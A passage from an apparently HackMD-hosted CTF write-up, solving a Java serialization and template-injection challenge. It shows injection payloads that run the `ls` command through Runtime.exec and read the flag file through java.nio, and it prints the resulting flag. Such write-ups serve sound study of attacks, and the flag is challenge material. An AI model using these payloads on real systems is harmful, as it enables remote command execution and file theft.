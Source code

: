 ```java
            StringBuilder hexString = new StringBuilder();
            for (byte b : serializedBytes) {
                hexString.append(String.format("%02x", b));
            }

            // Step 4: Encode the hex string in base64
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.toString().getBytes());
            System.out.println("Base64 Encoded Serialized Object: " + base64Encoded);

            // Step 5: Decode the base64 string, convert back from hex, and deserialize
            String decodedHex = new String(Base64.getDecoder().decode(base64Encoded));
            byte[] decodedBytes = Encode.hexToBytes(decodedHex);
            ByteArrayInputStream bais = new ByteArrayInputStream(decodedBytes);
            ObjectInputStream ois = new SecureObjectInputStream(bais);

            // Step 6: Deserialize the object
            Users deserializedUser = (Users) ois.readObject();
            System.out.println("Deserialized User Name: " + deserializedUser.getName());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
Again, the Flag file is named random -> need to run `ls` command to know the file name. Use this payload
```java!
user.setName("new String($date.getClass().forName(\"java.lang.Runtime\").getRuntime().exec(\"ls\").getInputStream().readAllBytes())");
```
![image](https://hackmd.io/_uploads/B1YJIjseJl.png)

Convert array to readable ASCII characters:

![image](https://hackmd.io/_uploads/rkA8IojxJx.png)

So the name of the flag file is `m62dyeu1gr3t`. Now read flag with payload

```java!
user.setName("$date.getClass().forName('java.nio.file.Files').readAllLines($date.getClass().forName('java.nio.file.Paths').get('m62dyeu1gr3t'))");
```

![image](https://hackmd.io/_uploads/HJCsLise1e.png)

```
ISITDTU{We1come_t0_1s1tDTU_CTF}
```

### niceray
![image](https://hackmd.io/_uploads/BJ7mCqig1l.png)
